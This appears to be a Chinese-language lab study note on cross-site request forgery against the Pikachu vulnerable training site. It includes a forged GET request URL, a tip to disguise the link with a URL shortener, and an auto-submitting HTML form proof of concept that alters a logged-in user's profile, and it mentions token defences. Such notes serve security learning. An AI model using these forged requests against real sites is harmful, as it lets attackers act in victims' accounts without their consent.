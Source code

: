 ## CSRF(跨站请求伪造)

Cross-site request forgery 简称为“CSRF” 
在CSRF的攻击场景中攻击者会伪造一个请求 , 然后欺骗目标用户进行点击 ; 用户一旦点击了这个请求，整个攻击就完成了

![image-20231027100228356](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231027100228356.png)

XSS和CSRF的区别:
CSRF是借用户的权限完成攻击，攻击者并没有拿到用户的权限
XSS是直接盗取到了用户的权限，然后实施破坏

GET型:
这里用pikachu靶场作为演示
**登录后** 利用bp抓修改资料的包 
`GET /pikachu-master/vul/csrf/csrfget/csrf_get_edit.php?sex=fuck&phonenum=110&add=Chian&email=123456789%40outlook.com&submit=submit HTTP/1.1`
在基础上进行修改 payload:
`localhost/pikachu-master/vul/csrf/csrfget/csrf_get_edit.php?sex=fuckkkkkk&phonenum=120&add=American&email=123123123123@outlook.com&submit=submit`

这样子发送太过于明显 所以我们可以用短连接生成器让别人看不太出来:
![image-20231027101401366](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231027101401366.png)

------

POST型
既然是post型 那就先bp抓包看看

![image-20231027101618960](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231027101618960.png)

是post的submit 那就不能在URL上动手脚了 这个时候就要用到BP的 CSRF PoC了
![image-20231027101917868](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231027101917868.png)

稍作修改 最后的PoC:

```html
<html>
  <body>
    <form action="http://localhost/pikachu-master/vul/csrf/csrfpost/csrf_post_edit.php" method="POST">
        <input type="hidden" name="sex" value="girl" />
        <input type="hidden" name="phonenum" value="18656565545" />
        <input type="hidden" name="add" value="usa" />
        <input type="hidden" name="email" value="zhangsan@pikachu.com" />
        <input type="hidden" name=" submit" value="submit" />
        <input type="submit" value="Submit request" />
    </form>
    <script>
        document.forms[0].submit();
    </script>
  </body>
</html>
```

用户登录后 点开这个网站 那么就会自动submit 然后修改资料


------

Token型
可以有效的防范CSRF的攻击 
![image-20231027104130999](C:\Users\13461\AppData\Roaming\Typora\typora-user-images\image-20231027104130999.png)

利用session和get token有效的防范了CSRF攻击 



